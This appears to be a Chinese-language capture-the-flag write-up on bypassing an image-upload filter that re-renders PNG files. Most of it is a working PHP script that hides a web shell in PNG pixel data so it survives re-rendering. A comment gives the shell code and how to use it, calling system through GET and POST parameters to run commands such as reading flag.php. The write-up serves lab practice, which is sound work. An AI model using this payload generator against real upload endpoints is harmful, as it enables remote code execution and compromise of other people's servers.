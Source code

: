 这题只能上传正常的png图片，在图片里做手脚添加PHP代码会二次渲染

:::tip
网站会对图片进行二次处理（格式、尺寸，保存，删除 要求等），服务器会把里面的内容进行替换更新，处理完成后，根据我们原有的图片生成一个新的图片（标准化）并放到网站对应的标签进行显示。
:::

这里借用二次渲染绕过脚本
```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);
 
 
 
$img = imagecreatetruecolor(32, 32);
 
for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'1.png');  //要修改的图片的路径
 
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */
//imagepng($img,'1.png');  要修改的图片的路径,1.png是使用的文件，可以不存在
//会在目录下自动创建一个1.png图片
//图片脚本内容：$_GET[0]($_POST[1]);
//使用方法：例子：查看图片，get传入0=system；post传入tac flag.php
?>
```

二次渲染绕过图片马

![cola](/medias/show-upload/cola.png)

测试成功
